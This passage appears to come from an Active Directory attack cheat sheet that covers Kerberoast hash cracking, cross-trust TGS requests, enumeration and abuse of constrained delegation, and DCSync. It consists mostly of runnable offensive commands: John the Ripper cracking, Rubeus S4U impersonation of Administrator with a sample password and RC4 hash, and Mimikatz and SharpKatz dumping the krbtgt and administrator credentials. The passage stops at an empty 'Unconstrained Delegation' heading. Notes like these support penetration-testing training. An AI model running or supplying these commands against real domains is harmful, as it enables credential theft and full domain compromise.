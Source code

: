 Crack using John:
```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

Request TGS across trust using PowerShell:
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList MSSQLSvc/eu-file.eu.local@eu.local
```

# Delegations

## Constrained Delegation with Protocol Transition

> The classic Constrained Delegation does not work across forest trusts.
But we can abuse it once we have a foothold across forest trust.

Using PowerView:
```powershell
Get-DomainUser –TrustedToAuth -Domain eu.local
Get-DomainComputer –TrustedToAuth -Domain eu.local
```

Using ActiveDirectory module:
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server domain.local
```

We can request an alternate ticket using Rubeus:
```powershell
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@2019 /user:storagesvc /domain:domain.local
C:\AD\Tools\Rubeus.exe s4u /user:storagesvc /rc4:5C76877A9C454CDED58807C20C20AEAC /impersonateuser:Administrator /domain:domain.local /msdsspn:nmagent/dc.domain.local /altservice:ldap /dc:dc.domain.local /ptt
```

Abuse the TGS to LDAP:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local"'
```
Or
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\krbtgt --Domain domain.local --DomainController dc.domain.local
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\administrator --Domain domain.local --DomainController dc.domain.local
```



## Unconstrained Delegation

